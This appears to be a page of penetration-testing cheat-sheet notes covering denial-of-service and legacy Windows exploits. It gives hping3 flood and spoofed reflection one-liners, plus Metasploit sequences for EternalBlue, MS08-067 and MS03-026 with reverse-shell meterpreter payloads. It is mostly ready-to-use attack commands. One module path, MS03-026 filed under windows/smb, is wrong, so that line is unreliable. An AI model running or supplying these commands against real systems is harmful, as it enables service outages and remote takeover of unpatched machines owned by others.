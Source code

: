 ### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

### Exploits

#### MS17-010 (EternalBlue)

*   **Tool:** \[\[Metasploit]], \[\[Custom Scripts]]

    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set PAYLOAD windows/meterpreter/reverse_tcp
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploits a vulnerability in Microsoft's implementation of the SMB protocol that could allow remote code execution. This exploit was used in the WannaCry ransomware attack.

#### MS08-067 (Conficker Worm)

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/smb/ms08_067_netapi
    set PAYLOAD windows/meterpreter/reverse_tcp
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploits a vulnerability in the Server service's handling of RPC requests, allowing for remote code execution.

#### MS03-026 (Blaster Worm)

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/smb/ms03_026_dcom
    set RHOST <target_ip>
    run
    ```
* **Description:** A critical vulnerability in the RPC interface that allowed remote code execution. Exploits a heap overflow in the RPCSS service to execute arbitrary code with SYSTEM privileges.
